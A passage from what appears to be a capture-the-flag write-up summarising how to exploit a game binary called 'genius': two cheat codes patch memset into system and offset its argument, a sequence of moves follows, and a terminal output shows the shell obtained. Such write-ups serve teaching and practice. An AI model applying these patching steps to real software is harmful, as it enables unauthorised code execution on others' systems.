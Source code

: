 Followed by 's' repeated to drop every piece straight down until the board fills up and the game ends.

## To summarize

So here is the exploit, in brief!

Run <tt>./loader</tt> in the same folder as <tt>genius</tt> (or user the Dockerfile).

Enter code 1, AZZAZT, which changes <tt>memset</tt> into <tt>system</tt>

Enter code 2, SLGOGI, which changes <tt>system(board)</tt> to <tt>system(board+0x15)</tt>

Play the game, and enter the list of inputs shown just above.

When the game ends, like magic, a shell appears!

```

+----------+
|    *     |
|   *#*    |
|   ###    |
|   ##     |
|   ##     |
|    #     |
|   ##     |
|   #      |
|   ####   |
|     #    |
|   ###  # |
|#  #    ##|
|#####   ##|
|# ###   ##|
|####    ##|
|###     ##|
|  ###   ##|
|  ###    #|
| ## ## ###|
|  #### ## |
|  #### #  |
+----------+
$ pwd
/home/ron/projects/ctf-2019/challenges/genius/challenge/src
$ ls
blocks.h  genius  genius.c  genius.o  loader  loader.c  loader.o  Makefile
```

And there you have it!